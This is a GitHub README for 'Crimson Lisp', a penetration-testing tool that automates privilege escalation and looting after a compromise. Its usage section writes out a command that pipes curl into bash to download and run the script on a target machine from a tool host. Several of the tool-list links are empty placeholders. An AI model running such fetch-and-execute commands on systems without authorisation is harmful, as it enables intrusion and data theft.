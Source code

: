 # Crimson Lisp

> Crimson Lisp is a tool that automates post-exploitation `PRIVILEGE ESCALATION` & `LOOTING` phases.
> It uses many open source tools. Most of them are available for download from GitHub.

<p align="center">
  <img src="lisp.png" />
</p>

# Installation
```bash
git clone https://github.com/Karmaz95/crimson_lisp.git
```
# Usage
```bash
# In the CRIMSON_LISP directory start the web server:
python3 -m http.server 80

# ON THE TARGET MACHINE - download and execute
curl -s http://127.0.0.1/lisp.sh | bash -s "-e" "-l" "-u http://127.0.0.1/"
        
        # -e => PRIVILEGE ESCALATION
        # -l => LOOTING
        # -u => HOST WITH TOOLS - If only "-u" option is used then only the tools will be downloaded.
```
# HISTORY
> If you are curious about how it works, read my blog:
<MEDIUM PLACEHOLDER>

# List of utilized tools
> The following tools are used in `Crimson Lisp`. I encourage you to study the links below. They will help you in your work.


### :diamonds: Privilege escalation:
*[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
*[]()
*[]()
*[]()
*[]()
*[]()
*[]()
*[]()
*[]()
*[]()
*[]()
*[]()
*[]()
*[]()
*[]()
*[]()




# LICENSE
> This program is free software: you can redistribute it and/or modify it under the terms of the [Apache License](https://choosealicense.com/licenses/apache-2.0/). Crimson Lisp and any contributions are Copyright © by Karol Mazurek 2022.

# SUPPORT
> You can support the project by buying me a coffee or via [NFT](https://opensea.io/assets/matic/0x2953399124f0cbb46d2cbacd8a89cf0599974963/63545429842149574507305116647116186975620361263604520406486432940112228647212/) which unlock the secret Crimson Web community.

<a href="https://www.buymeacoffee.com/karmaz95" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-red.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 200px !important;" ></a>